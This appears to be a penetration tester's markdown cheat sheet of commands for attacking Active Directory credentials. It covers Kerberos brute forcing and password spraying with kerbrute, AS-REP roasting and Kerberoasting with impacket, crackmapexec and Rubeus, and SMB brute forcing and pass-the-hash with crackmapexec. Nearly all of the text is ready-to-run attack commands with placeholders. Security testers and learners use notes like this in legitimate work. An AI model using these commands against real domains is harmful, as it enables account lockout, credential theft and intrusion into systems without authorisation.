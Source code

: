 # Passwords
## Kerberos
Brute force - WILL LOCKOUT USER:
`kerbrute bruteuser --dc <IP> -d <DOMAIN> <PASSLIST> <USER>`

Check password for userlist:
`kerbrute passwordspray --dc <IP> -d <DOMAIN> -v <USERLIST> <PASS>`

AS-REP (AS-REP Roasting):
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/ -usersfile <USERLIST>` 
`impacket-GetNPUsers -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` (need creds)
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --asreproast <OUTPUT>` (need creds)

TGS-REP (Kerberoasting):
`impacket-GetUserSPNs -dc-ip <IP> <DOMAIN>/<USER>:<PASS> -request` (need creds)
`crackmapexec ldap <IP> --kdcHost <IP> -u <USER> -p <PASS> --kerberoasting <OUTPUT>` (need creds)

## NetBIOS & SMB
Brute force - WILL LOCKOUT USER:
`crackmapexec smb <IP> -u <USER> -p <PASSLIST>`
`crackmapexec smb <IP> -u <USER> -H <HASHES>`

Check password for userlist:
`crackmapexec smb <IP> -u <USERLIST> -p <PASS>`

Change password user:
`smbpasswd -U <USER> -r <DC_IP>`

## Locally
AS-REP (AS-REP Roasting):
`Rubeus.exe asreproast /format:hashcat /nowrap`

TGS-REP (Kerberoasting):
`setspn -T medin -Q */*`